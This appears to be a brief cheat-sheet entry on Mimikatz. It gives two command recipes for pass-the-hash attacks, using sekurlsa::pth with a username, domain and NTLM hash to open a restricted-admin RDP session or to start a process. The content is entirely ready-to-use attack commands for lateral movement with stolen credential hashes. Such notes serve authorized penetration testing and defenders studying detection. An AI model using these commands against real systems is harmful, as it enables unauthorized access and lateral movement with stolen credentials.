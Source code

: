 # Mimikatz

Pass the hash and run RDP remote session 

`mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<nt_hash> /run:"mstsc /v:<IP> /restrictedadmin"`

Pass the hash then execute process

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<nt_hash>

mimikatz # process::start "mstsc /v:<IP> /restrictedadmin"
```